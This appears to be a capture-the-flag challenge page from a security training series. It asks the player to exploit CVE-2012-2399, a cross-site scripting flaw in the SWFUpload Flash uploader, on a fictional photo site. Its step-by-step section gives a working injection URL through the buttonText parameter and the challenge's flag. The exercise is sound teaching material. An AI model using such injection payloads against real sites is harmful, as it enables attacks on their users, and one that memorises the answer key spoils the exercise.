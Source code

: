 # 💣 Exposure - L11 C10

One of the Bulldogs, Lara Mindsay, is a surveillance expert and we think she's been using advanced drones to take high resolution photos of the bank from different angles.

She also runs a small legit side project, a photo site which allows anyone to create an account and upload photos. We think she's using it herself to store the bank surveillance photos and so we want to see if it's vulnerable. We've been penetration testing the site but have not had any success so far, then this morning one of the other agents sent me a tip - CVE-2012-2399. Take a look and see if you can use it to see if the site is vulnerable.

**Tip:** Find the vulnerability to get the flag.

<details><summary>

## Need a hint?</summary>

> 💡 Hint: What does google say about the CVE? Are there examples of ways to take advantage of this flaw? If there are then try them out!

</details>

<details><summary>

## Step by Step</summary>

- Insert the following as the url

`https://www.photobobbins.com/upload.swf?buttonText=test%3Cimg%20src=%27http://demo.swfupload.org/v220/images/logo.gif%27%3E`

- The flag should show up

`flag: rbvhuK8ROZ3ZTrfxPfyY`

</details>
